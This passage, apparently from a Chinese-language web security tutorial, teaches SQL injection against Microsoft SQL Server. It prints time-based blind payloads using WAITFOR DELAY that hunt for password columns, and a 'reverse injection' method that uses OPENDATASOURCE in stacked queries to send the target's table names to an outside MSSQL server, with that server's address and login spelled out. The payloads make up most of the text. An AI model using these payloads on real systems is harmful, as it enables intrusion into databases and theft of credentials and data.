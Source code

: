 ```
id=1 if((select count(*) from information_schema.columns where data_type in(select top 1 data_type from information_schema.columns where table_name ='emails') and ascii(substring(data_type,1,1))=116)!=0) WAITFOR DELAY '0:0:5'--+

**12.查询数据** 
# 查询所有数据库
SELECT Name FROM Master..SysDatabases ORDER BY Name
# 查询存在password字段的表名
SELECT top 1 sb.name FROM syscolumns s JOIN sysobjects sb ON s.id=sb.id WHERE s.name='password'
id=1 if((select count(*) from sysobjects where name in ((select name from sysobjects where name in (SELECT top 1 sb.name FROM syscolumns s JOIN sysobjects sb ON s.id=sb.id WHERE s.name='password') and ascii(substring(sysobjects.name,1,1))>1)))>0) waitfor delay '0:0:1'--
# 查询包含pass的字段名
SELECT top 1 name FROM SysColumns where name like '%pass%'
id=1 if((select count(*) from SysColumns where name in (SELECT top 1 name FROM SysColumns where name like '%pass%' and ascii(substring(name,1,1))>1))>0) waitfor delay '0:0:1'--
```

### 反弹注入

- 就像在Mysql中可以通过dnslog外带，Oracle可以通过python搭建一个http服务器接收外带的数据一样，在MSSQL数据库中，我们同样有方法进行数据外带，那就是通过反弹注入外带数据。
- 反弹注入条件相对苛刻一些，一是需要一台搭建了mssql数据库的vps服务器，二是需要开启堆叠注入。
- 反弹注入需要使用opendatasource函数。

> **OPENDATASOURCE函数**

- OPENDATASOURCE(provider_name,init_string)
- 使用opendatasource函数将当前数据库查询的结果发送到另一数据库服务器中。

> **反弹注入一般流程**

1. 连接vps的mssql数据库，新建表test，字段数与类型要与要查询的数据相同。这里因为我想查询的是数据库库名，所以新建一个表里面只有一个字段，类型为varchar。

```
CREATE TABLE test(name VARCHAR(255))
```

2. 获取数据库所有表

    使用反弹注入将数据注入到表中，注意这里填写的是数据库对应的参数，最后通过空格隔开要查询的数据。

```
# 查询sysobjects表
?id=1;insert intoopendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select namefrom dbo.sysobjects where xtype='U' --+

# 查询information_schema数据库
?id=1;insert intoopendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test selecttable_name from information_schema.tables--+ 
```

    在数据库成功获取数据
